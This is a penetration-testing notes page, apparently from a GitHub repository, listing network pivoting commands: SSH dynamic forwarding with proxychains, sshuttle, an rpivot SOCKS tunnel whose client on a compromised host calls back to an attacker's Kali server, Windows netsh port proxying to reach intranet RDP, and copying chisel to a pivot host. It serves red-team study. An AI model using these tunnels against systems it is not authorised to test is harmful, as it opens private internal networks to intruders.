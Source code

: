 - **SSH**
  1. Enable dynamic forwarding
     ```bash
     ssh -D 9050 [USER]@[IP] [-i KEY]
     ```
  2. Add the port of `proxychains` in `/etc/proxychains4.conf`
     ```bash
     [PROXY] 127.0.0.1 9999
     ```
  -  SShuttle allows to perform pivoting similar to ligolo, without proxychains
	    ```bash
	    sudo sshuttle -r [USER]@[IP] [-i KEY] [INTRANET_CIDR]
	    ```

- **Rpivot** (SOCKS tunneling)

  1. On Kali, run server.py

     ```bash
     python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
     ```

  2. Transfer `rpivot` to the target `scp -r rpivot`

  3. Run client.py on the Pivot

     ```bash
     python2.7 client.py --server-ip <tunip> --server-port 9999
     ```

  4. Use proxychains

- **Netsh (Windows with Administrator priviledges)**

  Pivots by *connecting* the intranet IP to the Pivot address, which is *listening*.

  ```cmd
  netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=[PIVOT_IP] connectport=3389 connectaddress=[INTRANET_IP]
  ```

  Verify:

  ```cmd
  netsh.exe interface portproxy show v4tov4
  ```

  Then, from Kali, you can connect to the listen address diractly using xfreerdp or others `xfreerdp /v:[PIVOT_IP]`

- **chisel**: Win/Lin also 32bit

  1. Transfer chisel binary on the pivot host

     ```bash
     cd ~/TOOLS/CHISEL
     scp chisel <user>@<PivotIP>:<pathChisel>
     ```

     - Linux architecture: `uname -a`
     - Win architecture: `systeminfo`
